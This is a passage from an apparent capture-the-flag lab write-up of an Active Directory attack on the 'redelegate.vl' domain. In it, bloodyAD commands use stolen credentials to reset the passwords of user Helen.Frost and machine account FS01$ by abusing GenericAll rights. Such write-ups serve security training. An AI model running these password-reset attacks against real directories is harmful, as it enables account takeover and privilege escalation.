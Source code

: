 ```bash
bloodyAD -u 'Marie.Curie' -p 'Fall2024!' --host 'dc.redelegate.vl' -d 'redelegate.vl' set password 'helen.frost' 'aashwin10!'
```

![image.png](/assets/images/Redelegate_VL/image%2022.png)

Marking **Helen.Frost** as owned.

### Helen.Frost → FS01$

Lets do a password change attack on **FS01$** as we have **genericAll** on **FS01$**

![image.png](/assets/images/Redelegate_VL/image%2023.png)

Using bloodyAD to perform it.

```bash
bloodyAD -u 'Helen.Frost' -p 'aashwin10!' --host 'dc.redelegate.vl' -d 'redelegate.vl' set password 'FS01$' 'aashwin10!'
```

![image.png](/assets/images/Redelegate_VL/image%2024.png)

We have now owned **FS01$.**

### Shell as Helen.Frost.
